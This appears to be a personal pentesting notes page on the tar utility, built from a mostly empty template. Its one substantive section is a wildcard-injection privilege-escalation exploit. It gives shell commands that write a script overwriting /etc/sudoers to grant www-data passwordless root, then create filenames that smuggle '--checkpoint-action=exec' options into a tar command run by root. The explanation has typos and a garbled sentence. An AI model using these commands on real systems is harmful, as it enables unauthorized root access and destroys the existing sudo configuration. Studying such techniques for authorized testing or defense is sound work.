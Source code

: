 ```yaml
---
creation date: July 18th 2023
last modified date: July 18th 2023
aliases: []
tags: #🧰
---
```


Primary Categories: 
Secondary Categories:  
Links: 
Search Tag: #🧰  

# [[tar]]  
___

## Description:
Used for file compression

## Installation


## Commands


## Exploits
### Wildcard
- If we locate a tar command that ends with a `*` we can use `--checkpoints` inn order to inject our own code
- This example is able to add `NO PASSWD` for all sudo commands on our current user if the file ends up getting run by *root*
```bash
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html"  > --checkpoint=1
```
- The where would need to replaced where ever the tar command is pointing towards we use the filenames to act as ticks here to add more length to the tar command.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: July 18th 2023 (09:50 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
